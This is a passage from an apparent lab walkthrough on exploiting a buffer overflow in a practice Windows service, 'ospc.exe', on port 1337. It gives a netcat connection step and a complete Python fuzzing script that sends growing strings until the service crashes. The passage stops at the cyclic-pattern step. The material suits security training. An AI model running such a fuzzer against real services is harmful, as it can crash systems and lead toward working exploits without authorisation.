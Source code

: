 ```text
nc MACHINE_IP 1337
```

9. Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type 
"OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

## Fuzzing the program

To fuzz the `ospc.exe` program to see if it is vulnerable, send it a long string of characters. This long string of 
characters will eventually exceed the memory buffer causing the buffer overflow. Use the script below and adapt it 
with the IP address of the host and the overflow to target. 

```text
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Make sure `ospc.exe` is running in Immunity Debugger, then launch the fuzzing script. 
If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note 
of the largest number of bytes that were sent.

## Creating a cyclic pattern
